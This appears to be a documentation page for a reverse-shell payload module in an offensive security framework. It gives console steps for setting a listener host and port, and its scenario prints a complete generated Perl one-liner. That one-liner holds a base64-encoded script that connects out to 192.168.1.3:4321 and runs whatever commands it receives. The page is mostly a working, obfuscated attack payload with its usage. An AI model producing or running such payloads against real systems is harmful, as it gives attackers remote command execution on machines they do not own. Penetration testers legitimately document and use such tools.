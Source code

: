 ## Description

Module generates payload that creates interactive tcp reverse shell by using perl one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/perl_reverse_tcp`
  3. Do: `set lhost 192.168.1.3`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates perl tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/perl_reverse_tcp
rsf (Perl Reverse TCP One-Liner) > set lhost 192.168.1.3
[+] lhost => 192.168.1.3
rsf (Perl Reverse TCP One-Liner) > set lport 4321
[+] lport => 4321
rsf (Perl Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
perl -MIO -e "use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKFBlZXJBZGRyLCIxOTIuMTY4LjEuMzo0MzIxIik7U1RESU4tPmZkb3BlbigkYyxyKTskfi0+ZmRvcGVuKCRjLHcpO3doaWxlKDw+KXtpZigkXz1+IC8oLiopLyl7c3lzdGVtICQxO319Ow=='));"
```
